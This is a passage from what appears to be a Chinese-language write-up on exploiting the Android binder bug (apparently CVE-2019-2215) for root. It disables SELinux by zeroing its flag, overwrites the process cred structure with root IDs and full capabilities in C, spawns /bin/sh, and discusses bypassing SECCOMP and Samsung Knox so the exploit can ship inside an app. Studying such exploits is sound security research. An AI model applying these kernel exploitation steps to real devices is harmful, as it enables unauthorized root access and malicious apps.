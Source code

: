 这里只需要对于SELinux只需根据kernelBase 计算出具体的地址，再直接进行写入0x0即可禁用掉。

现在的版本越来越多保护和检查机制，实际上直接这样不一定是不可行，有时得恢复kallsyms表才行

#### Root

提权的常用语句`commit_creds(prepare_kernel_cred(NULL));`，这就是常规的套路了。

``` c
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);
```

前面已经泄露出了task_struct->cred的地址，这里就只用将事先准备好的cred结构体写入即可

最后执行`system("/bin/sh");`、`execve("/system/bin/sh");`即可获得root权限。

![image-20200629174038205](img/image-20200629174038205.png)

#### Disabling SECCOMP

额外的如果想要将提权程序捆绑到app上的还需要这一步，Android8开始，所有 Android 软件都使用系统调用与 Linux 内核进行通信，SECCOMP过滤器会检测所有的非法调用。SECCOMP过滤器是放在zygote 进程中，而所有的Android应用程序都是该进程fork出来的，按理所以会影响到所有的应用，但是Android安全团队进行了部分筛选，只会阻止某些系统调用。

```c
struct seccomp {
	int mode;
	struct seccomp_filter *filter;
};
```

想要禁用SECCOMP，直接将mode改为0是导致内核崩溃，需要清除TIF_SECCOMP 标志。[这篇文章](https://hernan.de/blog/2019/10/15/tailoring-cve-2019-2215-to-achieve-root/)实现了绕过，感兴趣可以看一看。

对于三星的设备，还需要绕过Knox/RKP才行。对于如何绕过，最近有人公开了s8相关的[利用代码](https://github.com/chompie1337/s8_2019_2215_poc)，感兴趣可以看看。

#### patch

[patch](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/drivers/android/binder.c?h=linux-4.14.y&id=7a3cee43e935b9d526ad07f20bf005ba7e74d05b)
